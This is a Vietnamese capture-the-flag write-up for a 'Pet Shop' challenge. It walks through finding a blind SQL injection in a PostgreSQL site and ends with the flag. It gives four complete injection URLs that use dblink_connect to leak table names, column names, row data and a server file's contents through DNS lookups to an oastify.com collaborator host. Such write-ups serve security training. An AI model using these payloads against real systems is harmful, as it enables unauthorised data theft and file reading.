# Pet Shop



Giao diện trang web này là một trang bán thú cưng :)



Các chức năng trên trang web này không có gì đặc biệt, chỉ có phần `Tìm kiếm phụ kiện` bị disable rất khả nghi ඞඞඞ



Sửa lại HTML và test chức năng này thì trang web redirect mình tới `GET /?sp='` và không có gì xảy ra cả



Nhưng mà sau khi refresh lại thì chương trình báo lỗi. Có thể dự đoán được trang web này dính lỗi SQL Injection và kết quả của câu truy vấn được trả về ở lần truy cập tiếp theo 



Sau một vài lần fuzzing thì mình xác định được câu query này có 2 cột và sử dụng PostgreSQL



Vì đây là dạng Blind SQL Injection nên mình cần thử trước `triggering time delays` và `SQL error messages` nhưng cả 2 đều fail hoặc là mình sai ở đâu đó 😃. Nhưng mà mình cũng cần thử đến trường hợp OAST(Out-of-band application security testing)

Trong PostgreSQL, `dblink_connect` là một hàm được cung cấp bởi extension `dblink` để thiết lập một kết nối đến một cơ sở dữ liệu khác trong cùng hoặc trong một máy chủ PostgreSQL khác. Mình cũng có thể sử dụng nó để thực hiện truy xuất dữ liệu của database lên exploit server

refs: [dblink/lo_import data exfiltration - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/dblink-lo_import-data-exfiltration)

Xuất tên bảng → dump ra được bảng `searches`

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', table_name,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) FROM information_schema.tables limit 1 -- -
```



Xuất tên cột → 2 cột `id, search`

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', string_agg(column_name, '-') ,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) FROM information_schema.columns WHERE table_name='searches' limit 1 -- -
```



Xuất dữ liệu từ cột `search` → mình nhận được 1 đoạn mã hoá base64

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', string_agg(search, '-') ,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) FROM searches limit 1 -- -
```



Decode đoạn base64 này mình nhận được một đường dẫn `/var/lib/postgresql/data/sqlOutOfBand` trông giống như 1 file binary



Sử dụng `pg_read_binary_file` hoặc `pg_read_file` để đọc file này

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', pg_read_binary_file('/var/lib/postgresql/data/sqlOutOfBand') ,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) -- -
```



Decode From Hex và mình có được flag



`Flag: KCSC{Yeah_Ban_Lam_Duoc_Roi!!!}`